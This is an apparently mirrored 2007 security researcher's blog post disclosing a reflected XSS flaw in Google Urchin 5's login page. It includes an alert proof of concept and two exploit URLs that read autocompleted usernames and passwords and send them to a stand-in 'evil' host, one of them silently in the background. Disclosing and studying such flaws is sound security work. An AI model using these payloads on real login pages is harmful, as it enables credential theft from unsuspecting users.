 ```yaml
---
title: Google Urchin Password Theft Madness
author: adrian-pastor
date: Mon, 24 Sep 2007 14:14:49 GMT
template: post.jade
category: fucked
---
```


There is a trivially exploitable XSS vul on [Google Urchin Web Analytics 5](http://www.google.com/search?q=intext%3A%22Urchin+Web+Analytics+v5%22)'s login page. The vulnerability has been tested on versions `5.6.00r2`, `5.7.01`, `5.7.02` and `5.7.03` (latest). Previous versions are most likely to be affected as well. In case you didn't know, [Google Urchin](http://www.google.com/analytics/urchin_downloads.html) is the **install** version of Google Analytics.

I reported the issue to Google back on Jul 25 and was confirmed by their security team. They are now working on a fix. My original plan was to publish this info after a fix would be released. However, the issue [has also been found](http://ha.ckers.org/blog/20070823/xss-and-possible-information-disclosure-in-urchin/) by other folks about a month ago. As usual, the researcher loses credit when following the responsible disclosure route. Here is the boring POC:

	http://target/session.cgi?"><script>alert('XSS')</script><!--

You might have heard before that a XSS vulnerability on a login page is nasty. However most people think that the worst thing you can do is inject a form in order to perform a phishing attack. Although it's true this is a good example of what you can do, we can also do more advanced XSS phishing attacks that are even harder to detect. My two favorite tricks when finding a XSS vul on a login page are:

* **Overwriting** the login form's `action` attribute so that the victim's username and password are stolen when clicking on Login
* **Stealing** autocomplete data so that victim username and password are stolen _by simply clicking on our exploit URL_ (juicy!)

    Anyway, let's get to the point. I know that you're sick of XSS PoCs that only open alert boxes. So here is a exploit URL that will steal the victim's username and password by simply clicking on it. The only requirement is that the victim is using the "autocomplete passwords" feature, aka "Remember passwords for sites":

    http://target/session.cgi?"></form><script>setTimeout("location%3d'http://evil/?usr%3d'%2bdocument.forms[0].user.value%2b'%26pwd%3d'%2bdocument.forms[0].pass.value;",1500);</script><!--

    Using `location` is great for redirecting information to third-party sites. The problem is that the current window will change to show the evil site. Although this is great for demo purposes, it sucks when it comes to being stealth, since the victim can actually see his/her credentials being sent to another website on the address bar. Instead, we can dynamically create an image with JavaScript so _the credentials are stolen in the background:_

    http://target/session.cgi?"></form><script>h%3dnew%20Image();setTimeout("h.src%3d'http://evil/?usr%3d'%2bdocument.forms[0].user.value%2b'%26pwd%3d'%2bdocument.forms[0].pass.value;",1500);</script><!--

The following video shows the previous exploit in action. I don't think the quality of the video is that good, but oh well. Basically what it shows is how after visiting the exploit URL, the username and password are sent to google.com in the background. I use Paros in the video to demonstrate that the credentials do indeed get sent to google.com.

<div class="screen"><object width="425" height="350"><param name="movie" value="http://www.youtube.com/v/wCUovL9WLVQ"></param><param name="wmode" value="transparent"></param><embed src="http://www.youtube.com/v/wCUovL9WLVQ" type="application/x-shockwave-flash" wmode="transparent" width="425" height="350"></embed></object></div>

If you look at the code, you'll notice that we wait 1.5 secs using the _setTimeout()_ function before forwarding the credentials to the evil site. The reason for this is because we need to let the browser auto-complete the fields before performing the redirect. Otherwise the value of the username and password field would be blank by the time we steal them. 

_The PoC has been tested on the latest version of FF (2.0.0.7 at time of writing) and does _not_ work on IE 7, but _might_ work on IE 6. This doesn't mean you cannot do a auto-complete password theft attack on IE 7, it just needs a bit of more work! If you want to know the reason behind this difference is that IE 7 requires the user to first type or choose the username from the auto-complete drop-down menu, <em>before_ the password field is automatically filled.</em>
